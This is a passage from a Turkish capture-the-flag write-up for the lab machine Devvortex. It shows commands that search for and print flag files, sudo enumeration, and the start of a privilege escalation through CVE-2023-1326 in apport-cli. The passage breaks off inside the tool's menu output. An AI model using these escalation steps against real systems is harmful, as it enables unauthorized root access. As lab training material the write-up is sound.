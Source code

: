 ```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:

```bash
sudo -l
```

```text title="Output" hl_lines="5"
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Mevcut kullanıcı ile `#!bash apport-cli` ikili dosyasını çalıştırabildiğimi fark ettim. Kısa bir Google aramasından sonra bu aracın çökme raporları oluşturmada kullanılabildiğini ve bu aracın ilgili sürümünde bir [zafiyet](https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00) bulunduğunu keşfettim.

```bash
sudo /usr/bin/apport-cli -f
```

```text title="Output" hl_lines="16 37 43 59"
*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
```